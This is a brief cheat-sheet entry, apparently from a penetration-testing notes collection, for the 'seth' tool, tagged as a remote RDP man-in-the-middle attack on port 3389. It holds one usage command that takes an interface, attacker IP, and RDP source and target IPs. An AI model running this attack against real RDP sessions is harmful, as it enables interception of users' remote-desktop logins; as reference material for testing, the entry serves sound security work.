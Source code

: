 
# seth
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/MITM 

## rdp mitm attack
```
sudo ./seth.sh <interface> <Attacker-IP> <RDP-SOURCE-IP> <RDP-TARGET-IP>
```
